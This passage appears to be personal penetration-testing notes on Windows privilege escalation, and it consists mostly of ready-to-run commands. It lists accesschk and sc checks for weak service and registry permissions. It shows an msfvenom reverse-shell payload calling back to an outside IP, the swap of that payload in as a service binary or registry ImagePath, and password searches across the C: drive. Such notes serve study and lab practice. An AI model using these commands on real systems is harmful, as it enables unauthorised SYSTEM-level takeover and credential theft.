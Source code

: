 ```
```
accesschk.exe /accepteula -wuvc "C:\Program Files"
```

```
accesschk.exe /accepteula -uwcqv *
```
- Look for entries where the user has WRITE_DAC, WRITE_OWNER, or SERVICE_CHANGE_CONFIG permissions.
- confirm service is vulnerable with:
	- `sc qc VulnerableService`
		- example output:
			- [SC] QueryServiceConfig SUCCESS
				SERVICE_NAME: VulnerableService
			       TYPE               : 10  WIN32_OWN_PROCESS
			       START_TYPE         : 2   AUTO_START
			       ERROR_CONTROL      : 1   NORMAL
			       BINARY_PATH_NAME   : C:\Program Files\VulnerableService\service.exe
			       LOAD_ORDER_GROUP   :
			       TAG                : 0
			       DISPLAY_NAME       : Vulnerable Service
			       DEPENDENCIES       :
			       SERVICE_START_NAME : LocalSystem
- replace binary file with msfvenom revshell .exe
	- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.126.147 LPORT=1234 -f exe -o service.exe`
- restart the service
	- `net stop VulnerableService`
	- `net start VulnerableService`

***Weak Registry Permissions***
- Check permissions on registry keys:
	- `icacls C:\path\to\file`
```
accesschk.exe /accepteula -kqv "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options"
```

```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService"
```
- if key is writable by standard using, point ImagePath of VulnerableService to msfvenom shell located in directory user can write to:
```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService" /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\Public\malicious.exe" /f
```
- restart the service:
	- `net stop VulnerableService`
	- `net start VulnerableService`

Credentials in Files
```
Select-String -Path "C:\*" -Pattern "password"
```
^powershell
```
findstr /si password *.txt *.ini *.config
```
^cmd

Scheduled Tasks
```
schtasks /query /fo LIST /v
```

```